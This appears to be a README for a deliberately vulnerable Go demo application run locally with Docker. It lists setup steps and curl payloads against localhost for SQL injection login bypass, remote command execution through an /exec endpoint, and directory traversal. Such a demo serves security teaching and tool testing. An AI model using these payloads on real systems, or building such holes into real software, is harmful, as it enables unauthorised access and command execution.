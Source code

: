 **Demo steps**
1. start containers:
cd <tarpit_go>
docker-compose up

2. DB Init:
Visit:
http://localhost:3000/init
or
curl -X GET http://localhost:3000/dbinit

3. visit http://localhost:3000/login to see the demo; (There are also curl commands version attached)

4. tear down the environment:
control + C
docker-compose down

**curl version**
Sql injection demo: 
//password='12346" OR ""="'
curl -X POST -d "username=admin&password=12346%22+OR+%22%22%3D+%22" http://localhost:3000/login

Remote code execution:
curl -X POST -d "cmd=ls -a" http://localhost:3000/exec

Directory traversal demo: (login first)
curl -X GET http://localhost:3000/image/../demo/demo.go

